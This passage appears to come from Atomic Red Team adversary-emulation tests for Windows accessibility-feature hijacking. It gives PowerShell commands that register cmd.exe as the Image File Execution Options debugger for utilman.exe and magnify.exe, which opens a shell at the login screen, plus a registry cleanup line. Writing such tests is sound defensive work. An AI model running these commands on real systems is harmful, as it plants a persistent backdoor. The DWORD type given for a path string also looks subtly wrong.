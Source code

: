 
#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | utilman.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /f
```





<br/>
<br/>

## Atomic Test #4 - Attaches Command Prompt As Debugger To Process - magnify
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | magnify.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```
